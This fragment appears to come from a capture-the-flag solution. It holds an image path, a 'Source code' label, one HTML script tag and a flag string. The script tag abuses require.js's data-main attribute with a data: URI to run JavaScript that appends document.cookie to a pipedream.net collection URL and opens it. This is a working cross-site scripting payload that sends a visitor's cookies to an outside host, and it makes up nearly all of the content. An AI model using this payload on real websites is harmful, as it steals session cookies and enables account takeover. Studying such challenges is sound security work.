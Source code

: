 <script data-main='data:1,url = "https://enpdzznx8mvml.x.pipedream.net/?"; url_completo = url.concat(document.cookie); window.open(url_completo)' src='require.js'></script>

flag{th4t-w4s3nt-s0-str1ct-w4snt-it?}